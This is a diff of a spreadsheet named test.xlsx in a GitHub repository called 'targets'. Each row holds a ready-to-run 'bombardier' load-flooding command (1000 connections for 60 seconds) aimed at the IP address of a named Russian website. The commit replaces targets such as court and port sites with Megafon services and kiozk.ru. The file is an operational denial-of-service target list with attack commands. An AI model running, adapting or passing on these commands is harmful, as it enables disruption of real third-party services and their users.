

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 79.137.210.66 && sleep 5; | 79.137.210.66 | voentorg-2.ru
-row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 45.130.41.33 && sleep 5; | 45.130.41.33 | sktatflot.ru/
-row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 77.222.40.105 && sleep 5; | 77.222.40.105 | www.morport-sochi.ru
-row 8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.42.111.139 && sleep 5; | 84.42.111.139 | orenburgsky.orb.sudrf.ru
-row 9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.42.111.139 && sleep 5; | 84.42.111.139 | usd.orb.sudrf.ru
+row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.162.60.199 && sleep 5; | 188.162.60.199 | plus.megafon.ru
+row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.232.168.27 && sleep 5; | 193.232.168.27 | money.megafon.ru
+row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.227.73.6 && sleep 5; | 188.227.73.6 | kiozk.ru
+row 8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 193.232.168.26 && sleep 5; | 193.232.168.26 | books.megafon.ru
```
